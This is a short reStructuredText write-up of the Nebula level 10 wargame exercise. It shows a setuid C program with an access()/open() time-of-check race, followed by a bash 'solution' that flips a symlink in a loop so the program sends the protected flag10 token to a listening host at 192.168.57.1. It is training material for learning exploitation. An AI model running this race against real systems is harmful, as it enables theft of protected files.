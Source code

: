 .. _nebula10:

.. role:: bash(code)
    :language: bash
		     
Nebula level 10
===============

Basic Information
-----------------

**Home Page** https://exploit-exercises.com/nebula/level10/

**Source Code**

.. code-block:: c
		#include <stdlib.h>
		#include <unistd.h>
		#include <sys/types.h>
		#include <stdio.h>
		#include <fcntl.h>
		#include <errno.h>
		#include <sys/socket.h>
		#include <netinet/in.h>
		#include <string.h>

		int main(int argc, char **argv)
		{
		    char *file;
		    char *host;

		    if(argc < 3) {
		        printf("%s file host\n\tsends file to host if you have access to it\n", argv[0]);
			exit(1);
		    }

		    file = argv[1];
		    host = argv[2];

		    if(access(argv[1], R_OK) == 0) {
		        int fd;
			int ffd;
			int rc;
			struct sockaddr_in sin;
			char buffer[4096];

			printf("Connecting to %s:18211 .. ", host); fflush(stdout);

			fd = socket(AF_INET, SOCK_STREAM, 0);

			memset(&sin, 0, sizeof(struct sockaddr_in));
			sin.sin_family = AF_INET;
			sin.sin_addr.s_addr = inet_addr(host);
			sin.sin_port = htons(18211);

			if(connect(fd, (void *)&sin, sizeof(struct sockaddr_in)) == -1) {
			    printf("Unable to connect to host %s\n", host);
			    exit(EXIT_FAILURE);
			}

		#define HITHERE ".oO Oo.\n"
		    if(write(fd, HITHERE, strlen(HITHERE)) == -1) {
		        printf("Unable to write banner to host %s\n", host);
			exit(EXIT_FAILURE);
		    }
		#undef HITHERE

		    printf("Connected!\nSending file .. "); fflush(stdout);

		    ffd = open(file, O_RDONLY);
		    if(ffd == -1) {
		        printf("Damn. Unable to open file\n");
			exit(EXIT_FAILURE);
		    }

		    rc = read(ffd, buffer, sizeof(buffer));
		    if(rc == -1) {
		        printf("Unable to read from file: %s\n", strerror(errno));
			exit(EXIT_FAILURE);
		    }

		    write(fd, buffer, rc);

		    printf("wrote file!\n");

		    } else {
		        printf("You don't have access to %s\n", file);
		    }
		}

Solution
--------

Put this on a file and execute it

.. code-block:: bash

   #!/bin/bash
   CONT=0.00001
   INC=0.00001

   while true; do
       cd /home/flag10
       ln -sf /home/level10/x /home/level10/y
       ./flag10 /home/level10/y 192.168.57.1 &
       sleep ${CONT}
       ln -sf /home/flag10/token /home/level10/y #| grep -v exist
       echo  "Voy en " ${CONT}
       CONT=$(awk "BEGIN {print ($CONT+$INC)}")
       sleep 2
   done
